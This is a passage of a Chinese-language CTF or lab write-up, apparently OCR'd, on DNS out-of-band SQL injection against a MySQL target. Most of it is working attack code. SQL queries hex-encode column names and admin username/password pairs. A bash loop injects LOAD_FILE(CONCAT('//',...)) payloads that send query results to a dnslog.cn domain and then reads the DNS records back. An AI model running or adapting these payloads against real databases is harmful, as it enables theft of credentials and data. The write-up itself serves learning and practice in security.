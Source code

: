 **2. 查询字段**

```sql
-- 查询字段命令
select hex(group_concat(column_name)) from information_schema.columns where table_schema='maoshe' and table_name='admin';

-- id,username,password
```

**3. 查询账户密码**

1. 这里同时查询两个字段，这里使用 `concat` 而不是 `group_concat`
2. `hex()` 16禁止编码可能会操作 dnslog 的长度限制导致无法拿到结果。

```sql
-- 查询账户密码
select hex(concat(username,'___',password)) from maoshe.admin limit 1,1 ;
-- => admin123___123admin
-- => test___test123
```

**变态啊， 居然还不行** ， 这题 **刁钻， 太刁钻了**

> 是的，没错。 **不知道什么原因，我只执行了 2 次** 。 这就是一切 **惨案** 的源头。


### 0x02.3.2 蒸汽时代，甩开膀子干

使用 **Chrome 开发者工具** 分析了一下 DNSLOG 的请求规则。 升级了工具。

1. 每次请求申请一个域名是因为受过的伤太多。
2. 要 `sleep 1` 是怕被封。

```bash
#!/bin/bash
#

for i in $(seq 0 33)
do
{
    # 生成 dnslog 域名
    md5sha=$(date | md5)
    SESSION="--cookie PHPSESSID=$md5sha"
    DOMAIN=$(curl -s ${SESSION} http://dnslog.cn/getdomain.php )

    DNSLOG=".${i}.${DOMAIN}"

    SQL=" YOUR SQL STATMENT "

    curl ${SESSION} -sL  "http://vulhub.example.com:8022/dns/?id=1 AND LOAD_FILE(CONCAT('//',( ${SQL}  ),'${DNSLOG}/1.txt')) " > /dev/null

    # 获取结果
    curl -sL ${SESSION}  http://dnslog.cn/getrecords.php  | jq '.[0][0]'

    sleep 1
}
done
```
